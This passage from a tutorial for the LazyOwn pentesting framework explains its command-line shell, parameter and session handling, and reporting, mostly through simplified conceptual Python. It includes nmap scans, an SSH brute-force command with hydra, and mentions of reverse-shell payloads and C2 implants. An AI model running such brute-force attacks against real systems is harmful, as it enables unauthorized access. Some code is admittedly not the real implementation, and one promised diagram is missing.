    hostname = socket.gethostname()
    prompt_char = f'{RED}#' if os.geteuid() == 0 else '$'
    # ... (color codes) ...
    prompt = f"""{YELLOW}┌─{YELLOW}[{TRUE_COLOR.format(random_r, random_g, random_b)}LazyOwn{WHITE}👽{CYAN}{ip}{BRIGHT_CYAN}/{BRIGHT_MAGENTA}{hostname}{YELLOW}]{COLOR_256.format(random_color)}
    {YELLOW}└╼ {BLINK}{BRIGHT_GREEN}{prompt_char}{RESET} """.replace('    ','')

    return prompt
# --- End Simplified Snippet ---
```
*Explanation:* This Python code defines the `getprompt` function, which gathers network info and the current user's root status (`os.geteuid()`). It then formats a string with ASCII art and color codes (using variables defined earlier in `utils.py`) to create the fancy prompt you see. The `#` or `$` symbol at the end indicates if you are running as root, which is important for many pentesting tasks.

### Typing Commands

Now, let's solve a simple use case: checking if a target host is reachable using the `ping` command.

In the LazyOwn prompt, you would type:

```bash
┌─[LazyOwn👽10.0.0.1/kali]
└╼ # ping 8.8.8.8
```

After typing `ping 8.8.8.8` and pressing Enter, LazyOwn's CLI Framework (`cmd2`) does its work. It sees the command "ping" and the argument "8.8.8.8". It then looks for the code responsible for handling the `ping` command and executes it.

You would see output similar to what you'd expect from a regular system `ping` command, perhaps with some extra formatting from LazyOwn:

```
┌─[LazyOwn👽10.0.0.1/kali]
└╼ # ping 8.8.8.8
[+] Pinging target: 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=15.4 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=117 time=16.1 ms
...
[+] Ping complete.
```
*Explanation:* You typed the command `ping` followed by the target IP `8.8.8.8`. The CLI framework received this, identified the command, and ran the corresponding code within LazyOwn. This code then executed the actual `ping` system command and displayed its output, potentially adding some messages (like `[+] Pinging target...`).

## Under the Hood: How the Framework Works

Let's peek behind the curtain to see how `cmd2` makes this happen.

At its core, LazyOwn's main script (`lazyown.py`) initializes the `cmd2` framework. It defines a class that inherits from `cmd2.Cmd`. This class contains methods for each command you can run.

When you type a command, `cmd2` looks for a method within this class that starts with `do_` followed by the command name. For our `ping` example, `cmd2` would look for a method named `do_ping`.

Here's a highly simplified conceptual example of what that Python code structure might look like (this exact code isn't in the provided snippets, but represents the `cmd2` pattern LazyOwn uses):

```python
# --- Simplified Conceptual Example (Not actual LazyOwn code) ---
import cmd2 # Assume cmd2 is installed

class LazyOwnShell(cmd2.Cmd):
    """Your interactive LazyOwn shell"""

    prompt = "LazyOwn> " # Placeholder prompt

    def do_ping(self, args):
        """Ping a target host."""
        if not args:
            print("Usage: ping <target>")
            return

        target = args.split()[0] # Get the first argument
        print(f"[+] Pinging target: {target}")

        # --- Simplified: In reality, this would call a function
        # --- like the 'run_command' from utils.py to execute the
        # --- actual system ping command and capture output.
        # For demonstration, just print a placeholder:
        print(f"Simulating ping to {target}...")
        # output = run_command(f"ping -c 4 {target}")
        # print(output)
        print("[+] Ping complete.")

    def do_exit(self, args):
        """Exit the shell."""
        print("Exiting LazyOwn. Goodbye!")
        return True # Tell cmd2 to exit

if __name__ == "__main__":
    # This would typically be started by lazyown.py after setup
    shell = LazyOwnShell()
    shell.cmdloop() # Start the interactive loop
# --- End Simplified Conceptual Example ---
```
*Explanation:* This Python code defines a class `LazyOwnShell` that uses `cmd2.Cmd`. The `do_ping` method is automatically recognized by `cmd2` as the handler for the `ping` command. When you type `ping <target>`, `cmd2` calls `do_ping`, passing everything after `ping` as the `args` string. The code inside `do_ping` then handles the actual logic (validating arguments, calling helper functions like `run_command` from `utils.py` to execute the ping, and printing results). The `do_exit` method handles the `exit` command, returning `True` to signal `cmd2` to terminate the shell.

The actual logic for performing complex tasks within these `do_*` methods often relies on helper functions and classes defined elsewhere in the LazyOwn codebase, such as in the `utils.py` file we saw parts of earlier, or within specific modules or plugins.

Here's a simplified flow diagram of how it works when you type a command:

```mermaid
sequenceDiagram
    participant User
    participant Terminal
    participant LazyOwnCLI[cmd2]
    participant LazyOwnLogic (e.g., do_ping method)
    participant System (e.g., ping command)

    User->Terminal: Type "ping 8.8.8.8"
    Terminal->LazyOwnCLI[cmd2]: Send command line
    LazyOwnCLI[cmd2]->LazyOwnCLI[cmd2]: Parse "ping 8.8.8.8"
    LazyOwnCLI[cmd2]->LazyOwnLogic (e.g., do_ping method): Call do_ping("8.8.8.8")
    LazyOwnLogic (e.g., do_ping method)->System (e.g., ping command): Execute system ping via subprocess (using utils.py)
    System (e.g., ping command)-->LazyOwnLogic (e.g., do_ping method): Return ping output
    LazyOwnLogic (e.g., do_ping method)-->Terminal: Print formatted output
    Terminal-->User: Show output
    LazyOwnCLI[cmd2]->Terminal: Show prompt again
```
*Explanation:* You (User) type into the Terminal. The Terminal sends the input to the running LazyOwn CLI (powered by `cmd2`). `cmd2` parses the command and finds the corresponding method (like `do_ping`) in LazyOwn's code. This method executes, often interacting with your system (like running the actual `ping` utility). The results are sent back, processed by the LazyOwn logic, and then printed to the Terminal for you to see.

## Expanding Capabilities: Modules and Plugins

LazyOwn's CLI isn't limited to just built-in commands. It's designed to be extensible. The `cmd2` framework allows LazyOwn to dynamically add new commands.

*   **Modules:** LazyOwn organizes core functionalities into modules (which we'll cover in the next chapter). These modules likely add their commands to the `cmd2` framework when LazyOwn starts.
*   **Plugins:** As seen in the `plugins/README.md` and `plugins/init_plugins.lua` files, LazyOwn supports Lua plugins. These plugins register new commands using functions like `register_command`. LazyOwn's Python code interfaces with a Lua runtime (`lupa` library, seen in `utils.py`) to load these Lua scripts and make their registered functions available as commands in the `cmd2` shell. This is part of the [Addon & Plugin System](08_addon___plugin_system_.md).

So, when you type a command in the LazyOwn CLI, it could be a built-in command, a command provided by a Python module, or even a command defined in a Lua plugin! The `cmd2` framework manages all these different sources and makes them available through the single command prompt.

## Handy `cmd2` Features

While interacting with the CLI, remember these useful built-in features provided by `cmd2`:

| Feature         | How to Use                     | What it Does                                     |
| :-------------- | :----------------------------- | :----------------------------------------------- |
| **Help**        | `help` or `?`                  | Lists all available commands.                    |
| **Specific Help** | `help <command>` or `? <command>` | Shows documentation for a specific command.      |
| **History**     | Up/Down arrow keys             | Cycles through previously entered commands.      |
| **Run Shell**   | `!<command>`                   | Executes a system shell command (e.g., `!ls`). |
| **Edit Command**| `edit <command_number>`        | Opens a previous command in your text editor.  |
| **Shortcuts**   | (Some commands have aliases)   | Type a shorter name for a command.               |

Using these features will make your interaction with LazyOwn's CLI much more efficient.

## Conclusion

In this chapter, you learned that the command-line interface is your primary way to interact with LazyOwn, acting as your control panel. You discovered that LazyOwn uses the `cmd2` Python library as its CLI framework to handle command input, parsing, and execution dispatch. You saw a basic flow of how a command you type gets processed and executed, and how `cmd2` methods (like `do_ping`) are the bridge between your input and LazyOwn's functionality. You also got a glimpse into how LazyOwn extends its capabilities by integrating commands from modules and plugins into this framework.

You now understand the foundation of how you'll communicate with LazyOwn. The next step is to learn about the specific actions you can perform. In [Chapter 3: Modules & Commands](03_modules___commands_.md), we'll dive into the different categories of tasks LazyOwn can perform and the actual commands you'll use most often.

Let's move on to [Chapter 3: Modules & Commands](03_modules___commands_.md)!

# Chapter 4: Parameters & Session Management

Welcome back to the LazyOwn tutorial! In the last chapter, [Chapter 3: Modules & Commands](03_modules___commands_.md), we explored how commands are the specific actions you tell LazyOwn to perform, and how they are grouped into Modules.

But think about the commands we discussed, like `nmap`. Running `nmap` requires a target IP address. If you run `nmap`, then later run a `bruteforce` command on the same target, wouldn't it be annoying to type the target IP *every single time*?

This is where **Parameters & Session Management** comes in. LazyOwn needs a way to:

1.  **Know what information is required** for different operations (like target IP, username, password, port).
2.  **Store this information** so you don't have to repeat it.
3.  **Remember this information** as you switch between tasks or even restart LazyOwn.

Think of this system as your mission briefing and logbook. The "Parameters" are the key details of your current mission (the target IP, the specific port you're focusing on, the credentials you found, etc.). "Session Management" is the system that keeps track of all these details, like a logbook that records your progress and current situation.

## The Problem: Repeating Information

Let's revisit our example: you want to scan a target and then try a brute-force attack.

First, you might run a port scan:

```bash
┌─[LazyOwn👽10.0.0.1/kali]
└╼ # nmap 192.168.1.10
```

LazyOwn runs the Nmap scan. Great! You see that port 22 (SSH) is open. Now you want to try brute-forcing the SSH service. You might use a command like `hydra`.

```bash
┌─[LazyOwn👽10.0.0.1/kali]
└╼ # hydra ssh 192.168.1.10 -L users.txt -P passwords.txt
```

Notice you had to type `192.168.1.10` again. What if you find valid credentials and want to use an `ssh` command to log in?

```bash
┌─[LazyOwn👽10.0.0.1/kali]
└╼ # ssh root@192.168.1.10
```

Again, typing the IP. This quickly gets repetitive and increases the chance of typos, especially with complex IPs or hostnames.

## The Solution: Parameters

LazyOwn uses **Parameters** to solve this. Parameters are named variables that hold important pieces of information for your current operation. Instead of providing the target IP directly to the `nmap`, `hydra`, and `ssh` commands every time, you set a parameter like `rhost` (remote host) once, and the commands that need it can automatically use that value.

Common parameters include:

*   `rhost`: The target remote host (IP address or hostname).
*   `lhost`: Your local attacker machine's IP address.
*   `rport`: The target remote port.
*   `lport`: Your local listener port.
*   `user`, `pass`: Credentials (username and password).
*   `target_file`: Path to a file listing targets.
*   ... and many others depending on the specific module or command.

## How to Use Parameters

LazyOwn provides specific commands within the CLI ([Chapter 2: CLI Framework](02_cli_framework_.md)) to interact with parameters.

### Showing Current Parameters

To see the current values of all available parameters, you typically use a command like `show options` or simply `show`. (Based on typical pentesting frameworks).

```bash
┌─[LazyOwn👽10.0.0.1/kali]
└╼ # show options
```

*Expected Output (simplified example):*

```
┌─[LazyOwn👽10.0.0.1/kali]
└╼ # show options

Module Options:

   Name        Current Setting   Required  Description
   ----        ---------------   --------  -----------
   RHOST                         yes       The target host address or range.
   LHOST       10.0.0.1          yes       The local host address.
   RPORT                         no        The target port.
   LPORT                         no        The local port.
   USER                          no        Username for authentication.
   PASS                          no        Password for authentication.
   ... (many more parameters) ...

Global Options:

   Name         Current Setting   Description
   ----         ---------------   -----------
   VERBOSE      false             Enable verbose output.
   OUTPUT_DIR   sessions/         Directory to save output.
   ...

```

*Explanation:* The `show options` command lists parameters relevant to the current context (often module-specific, but there can be global ones too). It shows the parameter's name, its current value (if any), whether it's required for a command to run, and a brief description.

### Setting Parameters

To assign a value to a parameter, you use the `set` command:

```bash
set <parameter_name> <value>
```

Let's set our target IP:

```bash
┌─[LazyOwn👽10.0.0.1/kali]
└╼ # set RHOST 192.168.1.10
```

Now, if you run `show options` again, you'll see that `RHOST` has been updated:

```bash
┌─[LazyOwn👽192.168.1.10/kali]
└╼ # show options

Module Options:

   Name        Current Setting   Required  Description
   ----        ---------------   --------  -----------
   RHOST       192.168.1.10      yes       The target host address or range.
   LHOST       10.0.0.1          yes       The local host address.
   ...
```

Notice the prompt might even update to reflect the current `RHOST` if LazyOwn is configured to do so (as hinted by the `getprompt` function in `utils.py` from Chapter 2).

Now, when you run commands like `nmap` or `hydra` that need a target, they can automatically use the value you set for `RHOST` without you typing it again:

```bash
┌─[LazyOwn👽192.168.1.10/kali]
└╼ # nmap
```

The `nmap` command handler within LazyOwn sees that `RHOST` is set to `192.168.1.10` and executes the Nmap scan against that IP. Similarly for `hydra` (though you'd likely still need to specify the service and credential files):

```bash
┌─[LazyOwn👽192.168.1.10/kali]
└╼ # hydra ssh -L users.txt -P passwords.txt
```

The `hydra` command handler gets the target IP from the `RHOST` parameter.

This makes your workflow much smoother!

## Session Management: Remembering Everything

Setting parameters is useful for your current task, but what happens if you exit LazyOwn and come back later? Or if you need to run multiple operations simultaneously? This is where **Session Management** comes into play.

A "session" in LazyOwn is like a saved state of your current work. It includes:

*   The values of all parameters (`rhost`, `lhost`, `user`, etc.).
*   Potentially a history of commands run.
*   Discovered information (like hosts found, open ports, credentials).
*   Status of ongoing tasks (like C2 connections).

LazyOwn saves this session information to files, often in the `sessions/` directory. We saw this directory created during the installation in [Chapter 1: Deployment & Setup](01_deployment___setup_.md). The file `sessions/sessionLazyOwn.json` (seen referenced in `lazyc2.py`) is a prime example of where this state is stored.

When you start LazyOwn, it can load a previous session, putting all your parameters and collected data back into place. This is like opening your logbook to pick up exactly where you left off.

Saving sessions happens periodically or when you exit. Loading typically happens on startup.

## Under the Hood: How Parameters and Sessions Work

Let's look at how this is implemented in LazyOwn's code.

### Parameters as Internal State

The running LazyOwn application (the `LazyOwnShell` class using `cmd2`) maintains the current state, including all parameter values, in an internal data structure. This is often a dictionary or a custom object holding these key-value pairs. Based on the provided `utils.py` and `lazyc2.py` snippets, a `Config` object, initialized by `load_payload()`, seems to be used to hold configuration loaded from `payload.json`, and the `LazyOwnShell` instance itself likely holds additional parameters (`self.params` is seen in `utils.py` function signatures).

```python
# --- Simplified Conceptual Example (Illustrative, not exact LazyOwn code) ---
# From utils.py snippet:
class Config:
    def __init__(self, config_dict):
        self.config = config_dict
        for key, value in self.config.items():
            setattr(self, key, value)

# In lazyc2.py:
# config = Config(load_payload()) # Loads payload.json into a Config object

# In the LazyOwnShell class (conceptual):
# class LazyOwnShell(cmd2.Cmd):
    # ...
#    self.params = {} # Maybe a separate dictionary for user-set params?
    # Or perhaps some params overwrite the Config object?
    # The exact structure isn't fully clear from snippets, but the idea is a central storage.
#    self.config = config # Access to payload.json loaded config
    # ...

# --- End Simplified Conceptual Example ---
```
*Explanation:* LazyOwn uses structures (like the `Config` class) to hold key-value configuration. When parameters are set via commands, they modify a similar internal state (`self.params` in the shell object) which holds values like `rhost`, `lhost`, etc.

### The `set` Command

When you type `set RHOST 192.168.1.10`, the `cmd2` framework calls the `do_set` method in the `LazyOwnShell` class. This method parses your input (`RHOST` and `192.168.1.10`) and updates the internal parameters storage.

```python
# --- Simplified Conceptual Example of do_set ---
# Inside the LazyOwnShell class:

    def do_set(self, args):
        """
        Set a parameter value.

        Usage: set <parameter_name> <value>
        """
        parts = args.split(maxsplit=1)
        if len(parts) != 2:
            self.poutput("Usage: set <parameter_name> <value>")
            return

        param_name = parts[0].upper() # Often parameters are case-insensitive, stored upper
        param_value = parts[1]

        # --- Simplified: Check if parameter exists/is valid in real code ---
        # For simplicity, just store it
        self.params[param_name] = param_value
        self.poutput(f"Parameter '{param_name}' set to '{param_value}'")

        # --- Optional: Update prompt if it's a key network param ---
        # if param_name == 'RHOST':
        #     self.prompt = getprompt() # Regenerate prompt with new RHOST
        # ---

# --- End Simplified Conceptual Example ---
```
*Explanation:* The `do_set` method takes the parameter name and value, stores them in the `self.params` dictionary, and provides feedback. The actual LazyOwn code likely has more logic to validate parameter names and types.

### The `show options` Command

The `show options` command calls a method like `do_show` or `do_show_options`. This method simply iterates through the internal parameters storage (`self.params`, and maybe also the `Config` object loaded from `payload.json`) and prints them nicely formatted.

```python
# --- Simplified Conceptual Example of do_show_options ---
# Inside the LazyOwnShell class:

    def do_show(self, args):
        """Show current parameter options."""
        self.poutput("\nModule Options:")
        # --- In reality, this would fetch params from modules too ---
        for name, value in self.params.items():
             # This would be more sophisticated to show Required, Description etc.
             self.poutput(f"   {name:<12} {value:<15}")

        # --- Optionally show payload.json loaded config ---
        # self.poutput("\nPayload Config:")
        # for name, value in vars(self.config).items(): # Access Config attributes
        #     self.poutput(f"   {name:<12} {value:<15}")

# --- End Simplified Conceptual Example ---
```
*Explanation:* The `do_show` method accesses the internal parameter storage and prints its contents.

### Commands Using Parameters

When a command handler (like `do_nmap`) needs a parameter value, it accesses it directly from the internal storage.

```python
# --- Simplified Conceptual Example of do_nmap using parameters ---
# Inside the LazyOwnShell class:

    def do_nmap(self, args):
        """Perform an Nmap scan on the configured RHOST."""
        
        # Check if RHOST is set
        target = self.params.get("RHOST")
        if not target:
            self.poutput("Error: RHOST parameter is not set. Use 'set RHOST <target_ip>'")
            return

        # Check if RPORT is set, default to common ports if not
        port = self.params.get("RPORT", "1-1000") # Use a default if RPORT not set

        self.poutput(f"[*] Running Nmap scan on {target} ports {port}")

        # Construct the actual system command using parameters
        system_command = f"nmap -p {port} {target}" 
        
        # Use the utility function to run the command (from utils.py)
        # utils.run_command(system_command) 

        self.poutput("[+] Nmap scan initiated.") # Actual scan output handled by run_command

# --- End Simplified Conceptual Example ---
```
*Explanation:* The `do_nmap` method retrieves the `RHOST` and `RPORT` values from `self.params` using the `.get()` method (safer than direct access in case the parameter isn't set). It then uses these values to build and execute the actual `nmap` system command.

### Session File Saving/Loading

LazyOwn's state is often saved to `sessions/sessionLazyOwn.json`. The `lazyc2.py` file shows it being loaded (`shell.onecmd('create_session_json')` and `session_data = json.load(f)` in the web index route) and implies it's kept updated. The exact command to manually save/load might exist (e.g., `save`, `load <session_name>`), but the core idea is that the internal state, including parameters, is periodically written to this JSON file.

```python
# --- Simplified Conceptual Save/Load Logic ---
import json
import os

SESSION_FILE = "sessions/sessionLazyOwn.json"

def save_session(params, collected_data):
    """Saves the current session state to a JSON file."""
    session_state = {
        "params": params,
        "data": collected_data # Store other collected info here
    }
    os.makedirs("sessions", exist_ok=True)
    with open(SESSION_FILE, "w") as f:
        json.dump(session_state, f, indent=4)

def load_session():
    """Loads a session state from a JSON file."""
    if os.path.exists(SESSION_FILE):
        try:
            with open(SESSION_FILE, "r") as f:
                session_state = json.load(f)
            print("Session loaded successfully.")
            return session_state.get("params", {}), session_state.get("data", {})
        except json.JSONDecodeError:
            print("Error loading session: Invalid JSON format.")
            return {}, {}
    else:
        print("No session file found. Starting fresh.")
        return {}, {}

# In the LazyOwnShell initialization (conceptual):
# self.params, self.collected_data = load_session()

# On exit or save command (conceptual):
# save_session(self.params, self.collected_data)
# --- End Simplified Conceptual Save/Load Logic ---
```
*Explanation:* The session saving/loading functions read and write the internal state (parameters and other data) to a JSON file. This allows LazyOwn to maintain context across runs.

Here is a simple flow diagram showing parameter interaction:


*Explanation:* The user sets `RHOST`, which updates the internal `self.params`. When `show options` is used, it reads from `self.params`. When `nmap` is used without arguments, its handler retrieves the necessary `RHOST` from `self.params` to perform the action.

### `payload.json`: The Initial Briefing

As mentioned in [Chapter 1: Deployment & Setup](01_deployment___session_.md), `payload.json` is a crucial file, especially for the Docker setup. It's read when LazyOwn starts (`lazyc2.py` explicitly uses `load_payload()`). This file acts as the *initial* mission briefing, providing default values for common parameters like `lhost`, `c2_port`, and potentially others, depending on your setup.

The values from `payload.json` are loaded into the `Config` object, making them available to various parts of LazyOwn, including possibly setting initial values in the `self.params` storage or being directly accessible alongside user-set parameters.

The `payload.json` might contain sensitive information (like API keys or credentials), which is why `lazyc2.py` includes a `sanitize_json` function before potentially exposing parts of the config via the web interface (`/config.json` route). This highlights that parameters loaded from `payload.json` can be critical configuration details, not just mission specifics.

## Conclusion

In this chapter, you learned about LazyOwn's system for **Parameters & Session Management**. You saw how **Parameters** like `rhost` and `lhost` allow you to set important values once using the `set` command and view them with `show options`, preventing repetitive typing for common operations. You also understood that **Session Management** involves saving and loading the state of your work, including these parameters and collected data, using files like `sessions/sessionLazyOwn.json`, acting as your ongoing logbook. Finally, you saw how the initial configuration is loaded from `payload.json` at startup.

You now know how to configure LazyOwn for your specific targets and ensure your work is remembered. But capturing the *results* of your operations is just as important as setting them up. The next chapter will cover how LazyOwn helps you with **Documentation & Reporting**.

Let's move on to [Chapter 5: Documentation & Reporting](05_documentation___reporting_.md)!

# Chapter 5: Documentation & Reporting

Welcome back to the LazyOwn tutorial! In the previous chapter, [Chapter 4: Parameters & Session Management](04_parameters___session_management_.md), you learned how LazyOwn helps you keep track of important details like target IPs and credentials using parameters and how it saves your work using session management.

Knowing your parameters and having a saved session is like having a well-organized workbench and a logbook of your progress. But what happens when you finish a task, like scanning a target or finding a vulnerability? You need to record *what* you did, *how* you did it, and most importantly, *what* you found!

This is where **Documentation & Reporting** comes in. It's the process of creating records of your activities and findings. In penetration testing, good reporting is crucial because it's how you communicate the results of your work to clients, your team, or simply keep track for yourself.

Think of it like being a detective. You need to:

1.  **Document** your investigation process (the tools you used, the steps you took).
2.  **Report** your findings (the evidence you gathered, the conclusions you reached).

LazyOwn helps automate parts of this documentation and reporting process, making it easier to keep track of your missions.

## What is Documentation & Reporting in LazyOwn?

In LazyOwn, Documentation & Reporting covers several things:

*   **Explaining the Tool:** Providing manuals and guides on how to use LazyOwn itself.
*   **Recording Your Actions:** Keeping a log of the commands you ran.
*   **Saving Raw Findings:** Storing the output from commands like scans or vulnerability checks.
*   **Structuring Information:** Organizing collected data (like open ports, found credentials, identified vulnerabilities) into usable formats.
*   **Generating Reports:** Creating summary documents or visual representations of your findings.

It's the combination of user manuals and mission report generators.

## The Problem: Keeping Track Manually

Imagine running dozens of commands, finding open ports, discovering vulnerabilities, and cracking a few hashes. If you just copy-pasted everything into a text file, it would quickly become messy and hard to understand later. Remembering exactly which command you ran, against which target, and what the key finding was can be a nightmare without a system.

## The Solution: LazyOwn's Reporting Features

LazyOwn provides several ways to help you document and report:

1.  **Built-in Documentation Files:** Static files (mostly Markdown) that explain LazyOwn's features and commands.
2.  **Automated Documentation Generation:** Scripts that create documentation from the code itself, ensuring it's up-to-date.
3.  **Session Logs:** Automatically saving command history and outputs.
4.  **Structured Output Commands:** Commands designed to output specific findings in formats that are easy to parse or read.
5.  **Report Generation Commands & Web Interface:** Tools to gather information from your session and create reports, accessible via the CLI and a web interface.

Let's look at some examples.

## Understanding LazyOwn's Own Documentation

Before you can report on your findings *with* LazyOwn, you need to understand how to use LazyOwn *itself*. This is where the project's documentation comes in.

You've already interacted with some of this documentation! Remember typing `help` or `help <command>` in the CLI ([Chapter 2: CLI Framework](02_cli_framework_.md))? That information comes from docstrings in the code, which are part of the internal documentation.

LazyOwn also maintains separate Markdown files that serve as more comprehensive documentation:

*   `README.md`: The main overview of the project.
*   `COMMANDS.md`: Details about all the available commands.
*   `UTILS.md`: Documentation for helper functions.
*   `CHANGELOG.md`: A history of changes and new features.

You can see these files in the LazyOwn project directory.

### Automated Documentation (`readmeneitor.py`)

Keeping documentation updated manually every time the code changes is a lot of work. LazyOwn uses a script called `readmeneitor.py` to automate creating some of this documentation directly from the Python code's docstrings (the explanation text you put inside triple quotes `"""Docstring goes here"""`).

Look at the `DEPLOY.sh` script (seen in [Chapter 1: Deployment & Setup](01_deployment___setup_.md)). Parts of it are dedicated to running `readmeneitor.py`:

```bash
# --- Simplified from DEPLOY.sh ---
# Actualiza la documentación
python3 readmeneitor.py lazyown.py
python3 readmeneitor.py utils.py

# Actualiza el README.md con los ultimos cambios
# ... snip ...
update_section_md "<!-- START UTILS -->" "<!-- END UTILS -->" "$UTILS_FILE"
update_section_md "<!-- START COMMANDS -->" "<!-- END COMMANDS -->" "$COMMANDS_FILE"
update_section_md "<!-- START CHANGELOG -->" "<!-- END CHANGELOG -->" "$CHANGELOG_FILE"
# ... snip ...
```
*Explanation:* This part of `DEPLOY.sh` runs `readmeneitor.py` on the main `lazyown.py` file (which contains the command handlers) and the `utils.py` file. It then uses `sed` to automatically insert the content of the generated `UTILS.md` and `COMMANDS.md` files into specific sections (marked by HTML comments like `<!-- START ... -->`) within the main `README.md`. This keeps the main README updated with current command and utility documentation.

This means much of the documentation you read in `README.md`, `COMMANDS.md`, and `UTILS.md` is generated automatically every time the developers deploy a new version!

**Use Case: Reading about the `banners` command**

Let's say you ran an Nmap scan and want to see the banners (`banners` command). You could look in `COMMANDS.md` or type `help banners` in the CLI. The information you see is generated from the `do_banners` method's docstring by `readmeneitor.py`.

```python
# --- Simplified Conceptual Example (Illustrative of docstrings) ---
# Inside the LazyOwnShell class:

    def do_banners(self, args):
        """
        Extract and display banners from XML files in the 'sessions' directory.

        This function searches for XML files in the 'sessions' directory and extracts banner information...
        ... (more detailed explanation) ...

        Args:
            line (str): Not used in this function.

        Returns:
            None: Prints the extracted banners to the console.
        """
        # ... implementation to find XML, parse, and print banners ...
# --- End Simplified Conceptual Example ---
```
*Explanation:* The text within `"""Docstring goes here"""` is what `readmeneitor.py` extracts and puts into `COMMANDS.md` and what `cmd2` displays when you type `help banners`.

## Reporting Your Findings

Now, let's focus on documenting and reporting the results of your actual pentesting tasks.

### Saving Command Output

Many commands you run in LazyOwn (like `nmap`, `gobuster`, etc.) are wrappers around external tools. When you run `nmap 192.168.1.10`, LazyOwn executes the system `nmap` command and displays its output. This raw output is often saved.

Remember the `sessions/` directory created in [Chapter 1: Deployment & Setup](01_deployment___setup_.md)? This directory is crucial for reporting. It's where LazyOwn stores various files generated during your session:

*   Scan results (like Nmap XML/CSV files).
*   Collected credentials (`credentials.txt`, `hash.txt`).
*   Generated payloads (`revshell.sh`, `revshell.ps1`).
*   Notes (`notes.txt`).
*   Session state (`sessionLazyOwn.json`).
*   And importantly, logs of your commands and their output.

The `lazyc2.py` code snippet shows how client commands (from implants) are logged to files like `sessions/<client_id>.log` using CSV format. While the main CLI might not log *all* raw output to separate files for every command by default (relying on the terminal history or wrapper scripts handling output), the session files in `sessions/` are the central place for collecting data.

### Structured Reporting Commands

LazyOwn provides commands to process the raw data collected in `sessions/` and present it in a more structured way.

**Use Case: Reviewing Nmap Scan Results**

After running `nmap 192.168.1.10` (which might save output to `sessions/scan_discovery_192.168.1.10.xml` or similar), you might want to see a summary of banners found on open ports.

The `banners` command is designed for this:

```bash
┌─[LazyOwn👽192.168.1.10/kali]
└╼ # banners
```

Based on the `utils.py` documentation and `lazyc2.py` snippets, the `do_banners` command likely:

1.  Looks for Nmap XML output files in the `sessions/` directory.
2.  Parses these XML files (using `xml.etree.ElementTree` as hinted by standard Python libraries).
3.  Extracts hostnames, ports, protocols, services, and banners.
4.  Prints this information in a readable format, perhaps a table.

This command takes raw scan data and turns it into a structured list of banners, which is a valuable part of a report.

The `vulns` command (seen in `lazyc2.py` calling `lazygptvulns.py`) is another example. It can take scan data (like the output from `banners` or an Nmap file) and use AI to identify potential vulnerabilities (CVEs) related to the services and versions found. This automatically adds vulnerability identification to your reporting process.

```python
# --- Simplified Conceptual Flow for 'banners' command ---
sequenceDiagram
    participant User
    participant LazyOwnCLI[cmd2]
    participant BannersHandler (do_banners)
    participant FileSystem (sessions/)
    participant NmapXMLFile
    participant OutputTerminal

    User->LazyOwnCLI[cmd2]: Type "banners"
    LazyOwnCLI[cmd2]->BannersHandler (do_banners): Call do_banners()
    BannersHandler (do_banners)->FileSystem (sessions/): List .xml files
    FileSystem (sessions/)-->BannersHandler (do_banners): List of XML files
    loop For each XML file
        BannersHandler (do_banners)->FileSystem (sessions/): Read file
        FileSystem (sessions/)-->BannersHandler (do_banners): XML Content
        BannersHandler (do_banners)->BannersHandler (do_banners): Parse XML, extract banners
        BannersHandler (do_banners)-->OutputTerminal: Print banner info
    end
    OutputTerminal-->User: Show formatted banners
```
*Explanation:* When you type `banners`, the command handler finds Nmap XML files in the `sessions/` directory, reads them, extracts the relevant banner information, and prints it to your terminal.

### The Web Interface Report (lazyc2.py)

LazyOwn's web interface (served by `lazyc2.py`) is a central hub for interacting with your session, including dedicated sections for reporting.

Routes like `/tasks`, `/cves`, `/notes`, `/banners` (as seen in `lazyc2.py`) display information loaded from specific files in the `sessions/` directory (`tasks.json`, `cves.json`, `notes.txt`, `banners.json`). This allows you to view and manage:

*   **Tasks:** A Kanban-style board (`/tasks`) to track pentesting tasks (`sessions/tasks.json`).
*   **CVEs:** A list of identified vulnerabilities (`/cves`), potentially pulled from automated scans or manually added (`sessions/cves.json`).
*   **Notes:** Free-form text notes about the engagement (`/notes`), like a digital notebook (`sessions/notes.txt`).
*   **Banners:** The structured banner information collected by the `banners` command (`/banners`), stored in `sessions/banners.json`.

There's also a specific route, `/teamserver` (backed by `teamserver` command in `lazyc2.py`), which seems designed for building the main written report document. It allows filling out sections like "Assessment Information," "Executive Summary," "Methodology," etc., and saves this data to `static/body_report.json`.

Finally, the `/report` route pulls many of these elements together (session data, tools used, tasks, CVEs, written report sections, implant info) to display a comprehensive overview, acting as the final report dashboard.

**Use Case: Generating a Final Report**

To build a report for an engagement using the web interface:

1.  Run your scans and commands in the CLI, ensuring they save relevant data (like Nmap XML, credential files) into `sessions/`.
2.  Use the `banners` command in the CLI to process Nmap output into `sessions/banners.json`.
3.  Manually add notes, tasks, and CVEs through the web interface (`/notes`, `/tasks`, `/cves`). These are saved to their respective JSON files in `sessions/`.
4.  Fill out the structured report sections via the `/teamserver` route in the web interface, saving to `static/body_report.json`.
5.  Access the `/report` route to view a consolidated report based on `sessionLazyOwn.json` (your parameters), the contents of `sessions/tasks.json`, `sessions/cves.json`, `sessions/banners.json`, and `static/body_report.json`.

This flow combines automated data collection (scans, banner parsing), manual input (notes, tasks, report sections), and a central web interface to manage and view it all.

```mermaid
sequenceDiagram
    participant User
    participant LazyOwnCLI
    participant SessionsDir
    participant LazyOwnWeb (lazyc2.py)
    participant ReportFiles (sessions/*.json, static/body_report.json)
    participant Browser

    User->LazyOwnCLI: Run scan (e.g., nmap)
    LazyOwnCLI->SessionsDir: Save raw output (e.g., scan.xml)
    User->LazyOwnCLI: Run command (e.g., banners)
    LazyOwnCLI->SessionsDir: Read raw output (scan.xml)
    LazyOwnCLI->ReportFiles: Save structured data (banners.json)

    User->Browser: Access LazyOwn Web (/tasks)
    Browser->LazyOwnWeb (lazyc2.py): Request /tasks
    LazyOwnWeb (lazyc2.py)->ReportFiles: Load tasks.json
    LazyOwnWeb (lazyc2.py)-->Browser: Render tasks page
    User->Browser: Add new task
    Browser->LazyOwnWeb (lazyc2.py): Submit new task (POST)
    LazyOwnWeb (lazyc2.py)->ReportFiles: Update tasks.json

    User->Browser: Access LazyOwn Web (/teamserver)
    Browser->LazyOwnWeb (lazyc2.py): Request /teamserver
    LazyOwnWeb (lazyc2.py)-->Browser: Render teamserver page (reading body_report.json)
    User->Browser: Fill report sections
    Browser->LazyOwnWeb (lazyc2.py): Save report data (POST)
    LazyOwnWeb (lazyc2.py)->ReportFiles: Update static/body_report.json

